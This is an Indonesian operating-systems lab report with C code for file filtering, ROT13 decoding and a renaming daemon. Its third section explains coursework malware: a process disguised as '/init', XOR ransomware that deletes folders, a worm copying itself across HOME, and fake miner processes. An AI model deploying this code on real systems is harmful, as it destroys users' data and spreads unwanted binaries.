




# Laporan Praktikum IT28 Modul 2
## Anggota Kelompok
| No |             Nama              |     NRP     |
|----|-------------------------------|-------------|
| 1  | Yuan Banny Albyan             | 5027241027  |
| 2  | Ica Zika Hamizah              | 5027241058  |
| 3  | Nafis Faqih Allmuzaky Maolidi | 5027241095  |

## Soal_1
### A. Downloading the Clues
Untuk bagian A pertama mengunduh file ZIP yang bernama Clues.zip pada link `https://drive.usercontent.google.com/u/0/uc?id=1xFn1OBJUuSdnApDseEczKhtNzyGekauK&export=download` lalu unzip file tersebut secara langsung, setelah di unzip Clues.zip dihapus. Isi dari Clues tersebut berupa 4 folder yakni ClueA - ClueD dan di masing-masing folder tersebut terdapat .txt files dan isinya masih tidak jelas.

```
void download_and_extract() {
    struct stat st = {0};
    if (stat("Clues", &st) == 0 && S_ISDIR(st.st_mode)) {
        printf("Folder Clues sudah ada. Melewati download.\n");
        return;
    }
    ...
}
```
`stat("Clues", &st)` digunakan untuk memeriksa apakah folder Clues sudah ada di direktori kerja. Jika sudah ada, program akan menampilkan pesan "Folder Clues sudah ada" dan melewati proses unduh serta ekstraksi

```
char *wget_args[] = {
        "wget", "-q", "-O", "Clues.zip",
        "https://drive.usercontent.google.com/u/0/uc?id=1xFn1OBJUuSdnApDseEczKhtNzyGekauK&export=download",
        NULL
    };
    run_command(wget_args);
```
Menggunakan perintah `wget` untuk mengunduh file ZIP dari URL yang diberikan dan menyimpannya dengan nama `Clues.zip`.
Fungsi `run_command(wget_args)` akan menjalankan perintah ini di proses anak (fork), yang memanfaatkan `execvp` untuk mengeksekusi perintah `wget`.

```
char *unzip_args[] = {"unzip", "-q", "Clues.zip", NULL};
    run_command(unzip_args);
```
Menggunakan perintah unzip untuk mengekstrak isi dari `Clues.zip` tanpa menampilkan output (karena menggunakan opsi -q).

```
unlink("Clues.zip");
```
Setelah file diekstrak, file Clues.zip dihapus menggunakan fungsi unlink() untuk membersihkan file ZIP yang sudah tidak dibutuhkan lagi.

```
 DIR *inner = opendir("Clues/Clues");
    if (inner != NULL) {
        struct dirent *entry;
        while ((entry = readdir(inner)) != NULL) {
            if (strcmp(entry->d_name, ".") == 0 || strcmp(entry->d_name, "..") == 0) continue;

            char old_path[PATH_MAX], new_path[PATH_MAX];
            snprintf(old_path, sizeof(old_path), "Clues/Clues/%s", entry->d_name);
            snprintf(new_path, sizeof(new_path), "Clues/%s", entry->d_name);
            rename(old_path, new_path);
        }
        closedir(inner);
        rmdir("Clues/Clues");
    }
```
Jika folder Clues/Clues ditemukan setelah diekstrak, program akan membuka folder tersebut, membaca isinya, dan memindahkan semua file ke folder Clues/.
Setiap file di dalam folder Clues/Clues akan dipindahkan menggunakan fungsi `rename()`, dan setelah selesai, folder Clues/Clues akan dihapus menggunakan `rmdir()`.

FUNGSI PENDUKUNG
```
void run_command(char *const argv[]) {
    pid_t pid = fork();
    if (pid == 0) {
        execvp(argv[0], argv);
        perror("exec gagal");
        exit(EXIT_FAILURE);
    } else if (pid > 0) {
        int status;
        waitpid(pid, &status, 0);
    } else {
        perror("fork gagal");
    }
}
```
Fork: Program membuat proses anak dengan `fork()`. Jika `fork()` berhasil, proses anak akan memiliki `PID 0`, sedangkan proses induk (parent) akan menerima PID proses anak.

Exec: Pada proses anak, perintah sistem seperti `wget` atau `unzip` dijalankan dengan `execvp()`. Jika eksekusi gagal, program akan mencetak pesan error dan keluar.

Wait: Proses induk akan menunggu sampai proses anak selesai dengan `waitpid()`. Setelah proses anak selesai, program induk akan melanjutkan eksekusi.

bash:
```
./action
```



### B. Filtering the Files
Selanjutnya pindahkan file-file yang hanya dinamakan dengan 1 huruf dan 1 angka tanpa special character kedalam folder bernama Filtered. Karena terdapat banyak clue yang tidak berguna, jadi disaat melakukan filtering, file yang tidak terfilter dihapus.

```
void filter_files() {
    struct stat st = {0};
    if (stat("Filtered", &st) == -1) {
        if (mkdir("Filtered", 0755) != 0) {
            perror("Gagal membuat folder Filtered");
            return;
        }
    }
}
```
Fungsi `filter_files()` mengecek apakah folder Filtered/ sudah ada. Jika belum, maka folder tersebut dibuat dengan permission 0755.

```
regex_t regex;
int ret = regcomp(&regex, "^[a-zA-Z0-9]\\.txt$", REG_EXTENDED);
```
- ^[a-zA-Z0-9]\\.txt$

    - ^ → awal string

    - [a-zA-Z0-9] → satu karakter huruf/angka

    - \\.txt → harus diikuti .txt

    - $ → akhir string

- Contoh sesuai: `a.txt`, `d.txt`, `5.txt`
- Contoh tidak sesuai: `rj.txt`, `p0.txt`, `hint.txt`, `$.txt`

```
filter_recursive("Clues", &regex);
regfree(&regex);
```
Program menelusuri isi folder Clues/ secara rekursif untuk memproses file.

```
void filter_recursive(const char *base_path, regex_t *regex) {
    DIR *dir = opendir(base_path);
    ...
}
```
Membuka direktori base_path, dan membaca setiap entri file/subfolder.

```
while ((entry = readdir(dir)) != NULL) {
    if (strcmp(entry->d_name, ".") == 0 || strcmp(entry->d_name, "..") == 0) continue;

    char path[PATH_MAX];
    snprintf(path, sizeof(path), "%s/%s", base_path, entry->d_name);
}
```
- Mengabaikan `.` dan `..`

- Membentuk path absolut ke `file/subfolder`

```
struct stat st;
if (stat(path, &st) == -1) continue;
```
Cek apakah file bisa diakses

```
if (S_ISDIR(st.st_mode)) {
    filter_recursive(path, regex);
}
```
Masuk ke subfolder jika ditemukan

```
else if (S_ISREG(st.st_mode)) {
    if (regexec(regex, entry->d_name, 0, NULL, 0) == 0) {
        ...
    } else {
        ...
    }
}
```
Gunakan `regexec()` untuk mencocokkan nama file terhadap `regex`.

```
char dst[PATH_MAX];
snprintf(dst, sizeof(dst), "Filtered/%s", entry->d_name);
if (rename(path, dst) != 0) {
    perror("Gagal memindahkan file");
} else {
    printf("Dipindahkan: %s\n", path);
}
```
Jika cocok → Pindahkan ke folder Filtered/

```
if (remove(path) != 0) {
    perror("Gagal menghapus file");
}
```
Jika tidak cocok maka file dihapus

bash:
```
./action --Filter
```



### C. Combine the File Content
Pada bagian ini, setelah file berhasil di filter pada directory `Filtered`, ambil isi dari setiap `.txt` file tersebut kedalam satu file yaitu `Combined.txt` dengan menggunakan `FILE pointer`. Tetapi, terdapat urutan khusus saat redirect isi dari `.txt` tersebut, yaitu urutannya bergantian dari `.txt` dengan nama angka lalu huruf lalu angka lagi lalu huruf lagi. Lalu semua file `.txt` sebelumnya dihapus.
Contoh urutannya:
- 1.txt
- a.txt
- 2.txt
- b.txt
- dst..

```
void combine_files() {
    FILE *out = fopen("Combined.txt", "w");
    if (!out) {
        perror("Gagal membuat Combined.txt");
        return;
    }
}
```
Membuka file output `Combined.txt` dengan mode write `("w")`. Jika gagal membuat file, tampilkan pesan error dan keluar dari fungsi.

```
for (int i = 1; i <= 9; ++i) { ... }
```
Melakukan iterasi i dari 1 sampai 9 (karena file yang valid hanya dari `1.txt` sampai `9.txt` dan `a.txt` sampai `i.txt`).

```
snprintf(path, sizeof(path), "Filtered/%d.txt", i);
        FILE *in = fopen(path, "r");
        if (in) {
            size_t n;
            while ((n = fread(buffer, 1, sizeof(buffer), in)) > 0) {
                fwrite(buffer, 1, n, out);
            }
            fclose(in);
            remove(path);
        }
```
- Membuka file `Filtered/i.txt` untuk dibaca.
- Menyalin seluruh isi file ke `Combined.txt` dengan `fread` dan `fwrite`.
- Setelah selesai, file sumber dihapus dengan `remove(path)`.

```
char ch = 'a' + (i - 1);  // 'a' sampai 'i'
        snprintf(path, sizeof(path), "Filtered/%c.txt", ch);
        in = fopen(path, "r");
        if (in) {
            size_t n;
            while ((n = fread(buffer, 1, sizeof(buffer), in)) > 0) {
                fwrite(buffer, 1, n, out);
            }
            fclose(in);
            remove(path);
        }
```
- Mengambil huruf `'a'` sampai `'i'` dengan kalkulasi `char ch = 'a' + (i-1)`.
- Prosesnya sama dengan file angka: buka → baca → tulis → hapus.

```
{
...
fclose(out);
    printf("Combined.txt berhasil dibuat!\n");
}
```
Setelah semua file disatukan, tutup `Combined.txt` dan tampilkan pesan sukses.

bash:
```
./action --Combine
```
### D. Decode the file
Karena isi `Combined.txt` merupakan string yang random, maka decode menggunakan Rot13 string tersebut dan letakkan hasil dari string yang telah di-decode tadi kedalam file bernama `Decoded.txt`.

```
char rot13(char c) {
    if ('a' <= c && c <= 'z') return 'a' + (c - 'a' + 13) % 26;
    if ('A' <= c && c <= 'Z') return 'A' + (c - 'A' + 13) % 26;
    return c;
}
```
Isi dari fungsi ini:
- Memutar huruf alfabet sebanyak 13 huruf.
- ROT13 adalah metode substitusi sederhana: `'a'` jadi `'n'`, `'b'` jadi `'o'`, ..., `'n'` jadi `'a'`, dst.
- Huruf besar dan kecil diperlakukan berbeda, karakter selain huruf tidak diubah.

```
void decode_file() {
    FILE *in = fopen("Combined.txt", "r");
    FILE *out = fopen("Decoded.txt", "w");
    if (!in || !out) {
        perror("Gagal membuka file");
        return;
    }

    int ch;
    while ((ch = fgetc(in)) != EOF) {
        fputc(rot13(ch), out);
    }

    fclose(in);
    fclose(out);
    printf("Decode selesai. File disimpan di Decoded.txt\n");
}
```
Penjelasan fungsi `decode_file()`:
- `fopen("Combined.txt", "r")` 	Membuka file hasil gabungan untuk dibaca
- `fopen("Decoded.txt", "w")`	Membuka (atau membuat) file hasil decoding
- `fgetc()` & `fputc()`	Membaca 1 karakter, memproses dengan rot13(), lalu menulis ke output
- `fclose()`	Menutup file setelah proses selesai

bash:
```
./action --Decode
```



### E. Password Check
Input password hasil decode ke web yang sudah disediakan

password: BewareOfAmpy



## Soal_2
- Fungsi:
  + dekripsi
  + quarantine
  + return
  + erase
  + shutdown
melakukan download file, unzip file dan menjalankan daemon untuk dekripsi dengan menggunakan flag --decrypt
```c
void download_and_extract() {
    ensure_directory_exists(STARTER_KIT);

    char zip_path[300];
    strcpy(zip_path, STARTER_KIT);
    strcat(zip_path, "/starter_kit.zip");
    const char *download_url = "https://drive.usercontent.google.com/u/0/uc?id=1_5GxIGfQr3mNKuavJbte_AoRkEQLXSKS&export=download";
    char *wget_args[] = { "wget", "-O", zip_path, (char *)download_url, NULL };
    pid_t pid = fork();
    if(pid == 0) {
        execvp("wget", wget_args);
        perror("execvp failed untuk wget");
        exit(EXIT_FAILURE);
    } else if (pid > 0) {
        int status;
        waitpid(pid, &status, 0);
        if (WIFEXITED(status) && WEXITSTATUS(status) != 0) {
            fprintf(stderr, "Error saat mendownload starter_kit.zip\n");
            return;
        }
    } else {
        perror("Fork gagal untuk wget");
        return;
    }

    char *unzip_args[] = { "unzip", "-o", zip_path, "-d", STARTER_KIT, NULL };
    pid = fork();
    if(pid == 0) {
        execvp("unzip", unzip_args);
        perror("execvp failed untuk unzip");
        exit(EXIT_FAILURE);
    } else if (pid > 0) {
        int status;
        waitpid(pid, &status, 0);
        if (WIFEXITED(status) && WEXITSTATUS(status) != 0) {
            fprintf(stderr, "Error saat mengekstrak starter_kit.zip\n");
            return;
        }
    } else {
        perror("Fork gagal untuk unzip");
        return;
    }

    if (remove(zip_path) != 0) {
        perror("Gagal menghapus file starter_kit.zip");
    }
}
```
- mengecek apakah folder starter_kit untuk meletakkan file download ada atau tidak, jika tidak ada maka dibuat terlebih dahulu
- menggunakan `execvp("wget", wget_args);` untuk mendownload file dan `execvp("unzip", unzip_args);` untuk unzip file
  + di child fork pertama dijalankan wget, lalu parentnya menunggu sampai proses selesai baru dilakukan fork kedua yang child nya meng-unzip file 

```c
void run_daemon() {
    pid_t pid = fork();
    if (pid < 0) {
        perror("Fork gagal");
        exit(EXIT_FAILURE);
    }
    if (pid > 0) {
        exit(EXIT_SUCCESS);
    }

    umask(0);
    if (setsid() < 0) exit(EXIT_FAILURE);
    if (chdir("/") < 0) exit(EXIT_FAILURE);
    close(STDIN_FILENO);
    close(STDOUT_FILENO);
    close(STDERR_FILENO);

    FILE *fp = fopen(PID_FILE, "w");
    if (fp) {
        char pid_str[30];
        sprintf(pid_str, "%d", getpid());
        fputs(pid_str, fp);
        fclose(fp);
    }
    
    char timestamp[50];
    get_timestamp(timestamp, sizeof(timestamp));
    char log_msg[300];
    strcpy(log_msg, "Decrypt:\n");
    strcat(log_msg, timestamp);
    strcat(log_msg, " - Successfully started decryption process with PID ");
    {
        char temp[30];
        sprintf(temp, "%d", getpid());
        strcat(log_msg, temp);
    }
    strcat(log_msg, ".");
    write_log(log_msg);

    while (1) {
        decrypt_files();
        sleep(1);
    }
}
```
- ini menjalankan daemon untuk fungsi decrypt_files();
```c
void decrypt_files() {
    DIR *dir = opendir(QUARANTINE_DIR);
    if (!dir) {
        perror("Gagal membuka direktori karantina");
        printf("\nProses untuk membuat direktori karantina");
        ensure_directory_exists(QUARANTINE_DIR);
        printf("\nProses membuat direktori karantina selesai");
        return;
    }
    struct dirent *entry;
    char oldname[256], newname[256];
    while ((entry = readdir(dir))) {
        if (strcmp(entry->d_name, ".") == 0 || strcmp(entry->d_name, "..") == 0)
            continue;

        strcpy(oldname, QUARANTINE_DIR);
        strcat(oldname, "/");
        strcat(oldname, entry->d_name);

        size_t output_length;
        char *decoded = base64_decode(entry->d_name, strlen(entry->d_name), &output_length);
        if (decoded) {
            strcpy(newname, QUARANTINE_DIR);
            strcat(newname, "/");
            strcat(newname, decoded);
            if (rename(oldname, newname) == 0) {
                printf("Renamed: %s -> %s\n", entry->d_name, decoded);
            } else {
                perror("Gagal mengganti nama file");
            }
            free(decoded);
        }
    }
    closedir(dir);
}
```
- intinya ini mengambil nama file, lalu mendecryptntya dengan function base64_decode, lalu me-rename file sebelumnya, hanya saja, karna function ini dijalankan di daemon, maka proses rename nya ditambahkan quarantine/ di depannya agar location file nya di folder quarantine

- Untuk quarantine dan return intinya adalah memindahkan file
```c
void move_files(const char *src, const char *dst, const char *op) {
    ensure_directory_exists(src);
    ensure_directory_exists(dst);
    
    DIR *dir = opendir(src);
    if (!dir) {
        perror("Gagal membuka direktori sumber");
        return;
    }
    
    char header[100];
    strcpy(header, op);
    strcat(header, ":");
    write_log(header);
    
    struct dirent *entry;
    char oldpath[256], newpath[256];
    char log_msg[300];
    char timestamp[50];
    
    while ((entry = readdir(dir))) {
        if (strcmp(entry->d_name, ".") == 0 || strcmp(entry->d_name, "..") == 0)
            continue;

        strcpy(oldpath, src);
        strcat(oldpath, "/");
        strcat(oldpath, entry->d_name);

        strcpy(newpath, dst);
        strcat(newpath, "/");
        strcat(newpath, entry->d_name);

        if (rename(oldpath, newpath) == 0) {
            printf("Moved: %s -> %s\n", entry->d_name, dst);
            get_timestamp(timestamp, sizeof(timestamp));
            if (strcmp(op, "Quarantine") == 0) {
                strcpy(log_msg, timestamp);
                strcat(log_msg, " - ");
                strcat(log_msg, entry->d_name);
                strcat(log_msg, " - Successfully moved to quarantine directory.");
            } else if (strcmp(op, "Return") == 0) {
                strcpy(log_msg, timestamp);
                strcat(log_msg, " - ");
                strcat(log_msg, entry->d_name);
                strcat(log_msg, " - Successfully returned to starter kit directory.");
            }
            write_log(log_msg);
        } else {
            perror("Gagal memindahkan file");
        }
    }
    closedir(dir);
}
```
- di sini dicek path source dan path location, jika tidak ada maka dibuat folder nya
- just in case gabisa dibuat, maka ga bisa dibuka, dan dioutput pesan gagal membuka direktori sumber
- di sini konsepnya merename file, lebih tepatnya merename path file, bagian awalnya diubah (misal source/file.exe jadi target/file.exe)

- untuk fungsi eradicate(), --eradicate, ini simpelnya menghapus semua file yang ada di folder quarantine
- buka folder, mengeluarkan 1/1 file ke filepath, lalu remove filepath

```c
void shutdown_daemon() {
    FILE *fp = fopen(PID_FILE, "r");
    if (!fp) {
        fprintf(stderr, "PID file tidak ditemukan. Apakah daemon sedang berjalan?\n");
        return;
    }
    int pid;
    fscanf(fp, "%d", &pid);
    fclose(fp);
    if (kill(pid, SIGTERM) == 0) {
        printf("Daemon dengan PID %d dimatikan.\n", pid);
        char timestamp[50];
        get_timestamp(timestamp, sizeof(timestamp));
        char log_msg[300];
        strcpy(log_msg, "Shutdown:\n");
        strcat(log_msg, timestamp);
        strcat(log_msg, " - Successfully shut off decryption process with PID ");
        {
            char temp[30];
            sprintf(temp, "%d", pid);
            strcat(log_msg, temp);
        }
        strcat(log_msg, ".");
        write_log(log_msg);
        remove(PID_FILE);
    } else {
        perror("Gagal mematikan daemon");
    }
}
```
- untuk mematikan daemon, karna awalnya, ketika daemon dibuat, pid disimpan di file starterkit.pid, maka disini untuk mematikannya, `kill(pid, SIGTERM)`


## Soal_3
### A. Malware ini bekerja secara daemon dan menginfeksi perangkat korban dan menyembunyikan diri dengan mengganti namanya menjadi `/init`.

```
void daemonize() {
    pid_t pid = fork();
    if (pid > 0) exit(0);     // Parent process keluar
    if (pid < 0) exit(1);     // Fork gagal

    setsid();                 // Membuat session baru agar menjadi daemon
    pid = fork();
    if (pid > 0) exit(0);     // Exit dari session leader

    chdir("/");               // Ganti direktori kerja ke root
    fclose(stdin); 
    fclose(stdout); 
    fclose(stderr);           // Tutup file descriptor standar

    prctl(PR_SET_NAME, "/init");  // Ganti nama proses menjadi /init
}
```
- Forking 2 Kali: Membuat proses menjadi tidak memiliki controlling terminal dan benar-benar berjalan di background.
- `setsid()`: Membuat proses menjadi session leader agar benar-benar terpisah dari terminal.
- `prctl(PR_SET_NAME, "/init")`: Mengubah nama proses di sistem menjadi /init.

### B. Mengimplementasikan fitur wannacryptor yang bertugas untuk melakukan enkripsi pada seluruh file dan folder yang terdapat di direktori target (./test), dengan menggunakan metode XOR berdasarkan timestamp saat program dijalankan.
Untuk kelompok genap, enkripsi folder dilakukan dengan mengubah folder dan isinya menjadi file `.zip`, kemudian file `.zip` tersebut dienkripsi menggunakan XOR dan folder asli akan dihapus.

```
void xor_encrypt(const char *path) {
    FILE *f = fopen(path, "rb+");
    if (!f) return;
    fseek(f, 0, SEEK_END);
    long size = ftell(f);
    rewind(f);

    char *buffer = malloc(size);
    if (!buffer) {
        fclose(f);
        return;
    }
    fread(buffer, 1, size, f);
    rewind(f);
    for (long i = 0; i < size; i++)
        buffer[i] ^= timestamp_key[i % strlen(timestamp_key)];
    fwrite(buffer, 1, size, f);

    free(buffer);
    fclose(f);
}
```
menggunakan metode XOR sederhana untuk mengenkripsi file. Kunci enkripsi didasarkan pada timestamp saat program dijalankan, sehingga hasil enkripsinya berbeda setiap kali program dijalankan.

```
void zip_and_encrypt(const char *folder_path) {
    char zip_cmd[8192];
    snprintf(zip_cmd, sizeof(zip_cmd), "zip -r -q '%s.zip' '%s' && rm -rf '%s'", folder_path, folder_path, folder_path);
    system(zip_cmd);  // Jalankan perintah zip dan hapus folder

    char zip_file[4096];
    snprintf(zip_file, sizeof(zip_file), "%s.zip", folder_path);
    xor_encrypt(zip_file);  // Enkripsi file zip
}
```
Folder dikompresi menjadi `.zip`, lalu hasil file `.zip` akan dienkripsi. Folder aslinya kemudian dihapus secara permanen.

```
void wannacryptor(const char *target) {
    DIR *dir = opendir(target);
    if (!dir) return;

    struct dirent *entry;
    while ((entry = readdir(dir)) != NULL) {
        if (!strcmp(entry->d_name, ".") || !strcmp(entry->d_name, "..")) continue;

        char path[4096];
        snprintf(path, sizeof(path), "%s/%s", target, entry->d_name);

        struct stat st;
        if (stat(path, &st) == -1) continue;

        if (S_ISDIR(st.st_mode)) {
            zip_and_encrypt(path);  // Kelompok GENAP
        } else if (S_ISREG(st.st_mode)) {
            xor_encrypt(path);  // Enkripsi file langsung
        }
    }
    closedir(dir);
}
```
Program memindai semua isi direktori target (./test). Bila menemukan folder, dilakukan zip + enkripsi. Bila menemukan file biasa, langsung dienkripsi.

```
void *loop_crypto(void *arg) {
    while (1) {
        wannacryptor(FOLDER_TARGET);
        sleep(30);
    }
}
```
Fungsi wannacryptor dipanggil setiap 30 detik dalam thread `loop_crypto`, sehingga proses enkripsi berjalan terus-menerus di background.

### C. Fitur trojan.wrm bertugas menyebarkan malware dengan cara menduplikasi file binary malware (runme) ke seluruh direktori yang ada di dalam folder HOME milik user.

```
void replicate_malware() {
    char *home = getenv("HOME");
    if (!home) return;
    DIR *dir = opendir(home);
    if (!dir) return;

    struct dirent *entry;
    while ((entry = readdir(dir)) != NULL) {
        if (entry->d_type != DT_DIR) continue;
        if (!strcmp(entry->d_name, ".") || !strcmp(entry->d_name, "..")) continue;

        char folder_path[2048];
        snprintf(folder_path, sizeof(folder_path), "%s/%s", home, entry->d_name);

        DIR *sub = opendir(folder_path);
        if (!sub) continue;
        closedir(sub);

        char dest[4096];
        snprintf(dest, sizeof(dest), "%s/runme", folder_path);

        FILE *src = fopen("./runme", "rb");
        FILE *dst = fopen(dest, "wb");
        if (src && dst) {
            char buf[1024];
            size_t n;
            while ((n = fread(buf, 1, sizeof(buf), src)) > 0)
                fwrite(buf, 1, n, dst);
        }
        if (src) fclose(src);
        if (dst) fclose(dst);
    }
    closedir(dir);
}
```
Fungsi `replicate_malware` akan:
- Mengambil path dari environment variable HOME
- Membuka semua subdirektori di dalam folder HOME
- Untuk setiap subdirektori, membuat salinan file ./runme (yaitu binary malware ini sendiri) ke dalam subfolder tersebut

```
void *loop_replicate(void *arg) {
    while (1) {
        replicate_malware();
        sleep(30);
    }
}
```
Agar malware terus menyebar, proses ini dijalankan dalam thread yang mengulang setiap 30 detik.

```
void start_trojan() {
    prctl(PR_SET_NAME, "trojan.wrm");  // Nama proses
    pthread_t t;
    pthread_create(&t, NULL, loop_replicate, NULL);
    pthread_join(t, NULL);
}
```
Thread `loop_replicate` akan dijalankan oleh proses anak yang dinamai `trojan.wrm`.

### D. Fitur ketiga bernama rodok.exe dirancang untuk menjalankan fork bomb, yaitu proses yang akan membuat banyak proses anak secara terus-menerus. Namun berbeda dari fork bomb biasa, setiap proses yang dibuat oleh rodok.exe berperan sebagai cryptominer palsu yang secara berkala menulis hash acak ke dalam log file.

```
void start_rodok() {
    prctl(PR_SET_NAME, "rodok.exe");
    for (int i = 0; i < MAX_MINER; i++) {
        pid_t pid = fork();
        if (pid == 0) {
            pthread_t t;
            int *id = malloc(sizeof(int));
            *id = i;
            pthread_create(&t, NULL, mine_crafter, id);
            pthread_join(t, NULL);
            exit(0);
        }
    }
    while (1) pause();
}
```
Proses rodok.exe akan membuat 4 child process (jumlah ditentukan dengan MAX_MINER). Masing-masing proses akan menjalankan thread `mine_crafter`.

```
void *mine_crafter(void *arg) {
    int id = *(int *)arg;
    char name[32];
    snprintf(name, sizeof(name), "mine-crafter-%d", id);
    prctl(PR_SET_NAME, name);

    char logpath[] = "/tmp/.miner.log";
    while (1) {
        char *hash = random_hash();
        FILE *f = fopen(logpath, "a");
        if (f) {
            time_t now = time(NULL);
            struct tm *t = localtime(&now);
            fprintf(f, "[%04d-%02d-%02d %02d:%02d:%02d][Miner %02d] %s\n",
                t->tm_year + 1900, t->tm_mon + 1, t->tm_mday,
                t->tm_hour, t->tm_min, t->tm_sec,
                id, hash);
            fclose(f);
        }
        sleep(rand() % 28 + 3);  // delay acak agar realistis
    }
    return NULL;
}
```
- Setiap proses `mine-crafter-<id>` akan menghasilkan hash acak sepanjang 64 karakter hex.
- Hasil hash akan disimpan di file log tersembunyi: `/tmp/.miner.log`.
- Setiap hash dicatat bersamaan dengan timestamp dan ID proses miner.

## Soal_4


